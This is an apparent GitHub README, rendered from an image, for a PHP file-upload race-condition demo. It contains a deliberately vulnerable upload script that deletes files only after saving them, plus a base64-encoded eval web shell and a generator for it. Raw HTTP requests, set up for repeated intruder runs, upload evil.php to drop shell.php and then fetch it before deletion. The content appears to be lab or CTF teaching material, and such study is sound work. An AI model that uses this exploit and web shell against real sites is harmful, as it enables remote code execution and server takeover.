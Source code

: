 [toc]

# FileUpload LFI demo

## [unlink 文件上传 条件竞争](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/unlink_race_condition)

```php
<?php
    // highlight_file(__FILE__);
  if(isset($_FILES["file"])){
    move_uploaded_file($_FILES["file"]["tmp_name"],"upload/" . $_FILES["file"]["name"]);
    $content = file_get_contents("upload/".$_FILES["file"]["name"]);
    if(strpos($content,"php")){
        echo "this is a php file!!!!!";
    }
    unlink("upload/".$_FILES["file"]["name"]);
}
?>
```
```php
<?php
    var_dump(base64_encode('<?php eval($_REQUEST["code"]);?>'));
    file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7Pz4='));
?>
```


上传 恶意文件 evil.php

```
POST /test.php HTTP/1.1
Host: 172.31.102.71:12345
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 306
Content-Type: multipart/form-data; boundary=------------------------62d5b2d7e21dbde7

--------------------------62d5b2d7e21dbde7
Content-Disposition: form-data; name="file"; filename="evil.php"
Content-Type: application/octet-stream

<?php file_put_contents('shell.php',base64_decode('PD9waHAgZXZhbCgkX1JFUVVFU1RbImNvZGUiXSk7ID8+Cg=='));?>§1§

--------------------------62d5b2d7e21dbde7--
```

访问恶意文件

```
GET /upload/evil.php HTTP/1.1
Host: 172.31.102.71
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 1

§1§
```
